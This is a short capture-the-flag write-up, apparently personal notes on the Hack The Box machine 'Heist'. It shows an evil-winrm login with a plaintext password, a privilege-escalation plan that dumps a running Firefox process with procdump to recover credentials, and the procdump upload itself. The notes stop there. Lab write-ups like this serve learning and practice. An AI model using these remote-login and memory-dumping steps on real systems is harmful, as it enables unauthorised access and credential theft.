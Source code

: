 
# Foothold

## Evil WinRM
```
evil-winrm -i heist.htb -u Chase -p "Q4)sJu\Y8qz*A3?d"
```


## Userflag
under Desktop

## Todo.txt
```
type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```


# PrevEsc

## 

![[Pasted image 20230207105519.png]]

under `C:\inetpub\wwwroot` there is `login.php`
check the form of password

`cat login.php`
![[Pasted image 20230207105555.png]]

## Process
`get-process`
![[Pasted image 20230207102012.png]]

firefox is running so its possible that we can get user input since the login.php takes plaintext as password.

## Upload procdump
```
C:\Users\Chase\Desktop> upload /home/kali/Documents/WinTools/procdump.exe \Users\Chase\Desktop
```
